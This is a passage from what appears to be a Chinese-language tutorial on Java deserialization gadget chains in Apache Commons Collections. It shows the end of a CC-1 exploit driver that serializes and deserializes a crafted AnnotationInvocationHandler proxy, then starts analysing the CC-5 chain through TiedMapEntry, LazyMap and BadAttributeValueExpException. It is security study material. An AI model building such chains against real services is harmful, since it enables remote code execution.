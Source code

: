 ```plain
        Object newInstance = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

        serialize(newInstance);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
```

## CC-5分析

### 分析过程

CC-5就是接住了CC-1铺好的路，我们先来看一下TiedMapEntry类中的toString方法

```plain
public String toString() {
        return getKey() + "=" + getValue();
    }
```

调用了getValue()方法

```plain
public Object getValue() {
        return map.get(key);
    }
```

getValue()里面有个map.get(key),而这个map.get就可以嫁接我们在cc1中讲到的LazyMap.get这个思路。

```plain
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
```

在该类的构造方法传入map，然后我们在寻找哪里readObject方法调用了toString，

BadAttributeValueExpException类的readObject中有调用val成员变量的toString方法。val成员变量是私有属性，我们可以通过反射修改成TiedMapEntry的实例对象。即可完成调用
